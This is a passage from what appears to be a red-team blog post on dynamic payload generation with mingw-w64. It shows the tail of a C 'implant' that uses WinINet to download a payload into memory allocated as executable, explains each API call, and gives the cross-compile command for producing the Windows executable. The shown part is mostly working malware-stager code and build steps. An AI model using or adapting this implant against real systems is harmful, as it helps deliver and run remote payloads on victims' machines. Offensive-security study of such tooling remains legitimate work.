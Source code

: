 ```c
    BOOL bRequestSent = HttpSendRequestA(hRequest, NULL, 0, NULL, 0);

    BOOL bKeepReading = TRUE;
    const int nBuffSize = 100000;
    int size = 0;

    char* buff = VirtualAlloc(0, 100000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    DWORD dwBytesRead = -1;

    while (bKeepReading && dwBytesRead != 0) {
        bKeepReading = InternetReadFile(hRequest, buff, nBuffSize, &dwBytesRead);
    }
    printf(buff);
		InternetCloseHandle(hRequest);
    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);
    return 0;
}
```

We'll use InternetOpenA to get a handle, InternetConnectA to specify the host and port, HttpOpenRequestA to connect to the host, HttpSendRequestA to make our request, and then InternetReadFile to read the response from the server. I made a hardcoded assumption here that our payload is less than 100000 bytes. In this case we know it will be less than that, and in a real project you should have a good idea what the maximum size of your final payload is.

## Mingw-64

Up until this point I had only ever used the Visual Studio toolchain to compile my payloads. However, the VS tools are only available on Windows hosts, or through an emulator like WINE (though I've never had luck with this). Pretty much every C2 that I've seen was designed to operate from a Linux host for obvious reasons. Since we need to compile C from Linux to Windows, we need to use a cross-compiler like mingw-w64. You can install mingw-w64 using apt or your other favorite package manager.

The command to compile the implant is below. We'll specify the source file, the output file, and include two flags (lwininet and lwinhttp) which tell the linker to include the wininet and winhttp libraries. The -w flag just suppresses warnings.

```cpp
x86_64-w64-mingw32-gcc-win32 ./modified_implant.c -o modified_implant.exe -lwininet -lwinhttp -w
```

After compiling we can run to verify that everything works. We get a 404 from the server as expected.

![../images/Dynamic_payload_generation_with_mingw/Untitled.png](../images/Dynamic_payload_generation_with_mingw/Untitled.png)
